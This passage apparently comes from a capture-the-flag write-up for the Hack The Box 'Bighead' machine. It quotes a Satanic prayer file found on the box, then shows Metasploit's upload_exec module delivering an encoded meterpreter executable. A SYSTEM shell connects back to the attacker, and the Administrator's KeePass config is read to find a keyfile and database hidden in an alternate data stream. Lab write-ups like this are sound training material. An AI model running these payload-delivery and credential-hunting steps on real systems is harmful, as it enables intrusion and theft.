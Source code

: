 ```

   Prayer for The Praise of Satan's Kingdom

              Praise, Hail Satan!
   Glory be to Satan the Father of the Earth
       and to Lucifer our guiding light
    and to Belial who walks between worlds
     and to Lilith the queen of the night
    As it was in the void of the beginning
                   Is now, 
and ever shall be, Satan's kingdom without End

                so it is done.

                    * * *
```

When I started a shell my PHP meterpreter kept dropping so I used the `multi/manage/upload_exec` metasploit module to upload an .exe meterpreter and get another meterpreter session. This time I could spawn a shell without losing access.

```
msf5 post(multi/manage/upload_exec) > run

[*] Uploading /root/htb/bighead/met.exe to met.exe
[*] Executing command: met.exe
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (179808 bytes) to 10.10.10.112

[*] Meterpreter session 7 opened (10.10.14.23:5555 -> 10.10.10.112:49167) at 2019-05-02 21:19:51 -0400

meterpreter > shell
Process 3316 created.
Channel 1 created.
Microsoft Windows [Version 6.0.6002]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\xampp\apps\testlink\htdocs>whoami
whoami
nt authority\system
```

The administrator's `C:\Users\Administrator\AppData\Roaming\KeePass` directory contains a Keepass configuration file: `keepass.config.xml`. It contains the name of the last keyfile used : `admin.png` and the database file: `root.txt`. Notice that the file name is `root.txt:Zone.Identifier` and not just `root.txt` so this means we are looking at NTFS alternate data streams here.

```
[...]
<Association>
<DatabasePath>..\..\Users\Administrator\Desktop\root.txt:Zone.Identifier</DatabasePath>
<Password>true</Password>
<KeyFilePath>..\..\Users\Administrator\Pictures\admin.png</KeyFilePath>
</Association>
[...]
```
